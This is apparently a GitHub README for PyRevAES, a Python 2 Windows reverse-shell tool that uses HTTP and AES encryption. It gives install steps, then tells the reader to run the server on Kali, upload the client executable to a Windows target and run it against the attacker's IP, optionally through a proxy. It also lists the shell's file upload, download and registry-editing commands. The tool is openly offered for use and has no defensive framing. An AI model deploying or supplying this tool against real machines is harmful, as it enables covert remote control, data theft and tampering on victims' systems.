<h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python2.

If I get some time, I will convert this to a python3 project.


## Install:
1. ```git clone https://github.com/simon-revit/PyRevAES.git```
2. ```cd PyRevAES/```
3. ```pip2 install -r requirements.txt```
4. ```python2 server_shell_http.py```
5. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Usage:
1. Run server_shell_http.py from kali (and choose port 80)
```
sudo python2 server_shell_http.py
```
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## Extras:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from https://stackoverflow.com/questions/32468270/tcp-proxy-using-python Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

NB: If changing the ```secret``` AES encryption key, ensure you change both the client and server scripts to match.

## Commands:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message

WINREG HELP
```
Usage set:  	winreg,set,[HKEY],"[REG_PATH]",[REG_NAME],[value]
Example:        winreg,set,HKEY_CURRENT_USER,control panel\mouse,mousesensitivity,7
                                or
Usage read: 	winreg,read,[HKEY],[REG_PATH],[REG_NAME]
Example:        winreg,read,HKEY_CURRENT_USER,control panel\mouse,mousesensitivity
```


## Issues:
If there are issues with pip2 installation (due to deprecation) refer to this https://bootstrap.pypa.io/ to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
